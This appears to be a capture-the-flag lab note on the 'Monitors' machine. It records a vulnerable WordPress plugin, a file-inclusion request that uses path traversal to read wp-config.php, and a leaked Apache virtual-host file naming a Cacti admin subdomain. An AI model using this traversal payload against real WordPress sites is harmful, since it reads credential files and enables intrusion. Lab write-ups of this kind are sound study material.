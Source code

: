 # WordPress

## Plugins

http://monitors.htb/wp-content/plugins/wp-with-spritz/

![[Pasted image 20210606161704.png]]


## Remote File Inclusion

https://www.exploit-db.com/exploits/44544


GET /wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php

![[Pasted image 20210606161803.png]]

## VHost disclosure

![[Pasted image 20210606181044.png]]

/etc/apache2/sites-enabled/cacti-admin.monitors.htb.conf

```html
HTTP/1.1 200 OK
Date: Sun, 06 Jun 2021 17:09:26 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1401
Connection: close
Content-Type: text/html; charset=UTF-8

<VirtualHost *:80>
	# The ServerName directive sets the request scheme, hostname and port that
	# the server uses to identify itself. This is used when creating
	# redirection URLs. In the context of virtual hosts, the ServerName
	# specifies what hostname must appear in the request's Host: header to
	# match this virtual host. For the default virtual host (this file) this
	# value is not decisive as it is used as a last resort host regardless.
	# However, you must set it for any further virtual host explicitly.
	#ServerName www.example.com

	ServerAdmin admin@monitors.htb
	ServerName cacti-admin.monitors.htb
	DocumentRoot /usr/share/cacti
	ServerAlias cacti-admin.monitors.htb

	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
	# error, crit, alert, emerg.
	# It is also possible to configure the loglevel for particular
	# modules, e.g.
	#LogLevel info ssl:warn

	ErrorLog /var/log/cacti-error.log
	CustomLog /var/log/cacti-access.log common

	# For most configuration files from conf-available/, which are
	# enabled or disabled at a global level, it is possible to
	# include a line for only one particular virtual host. For example the
	# following line enables the CGI configuration for this host only
	# after it has been globally disabled with "a2disconf".
	#Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet

```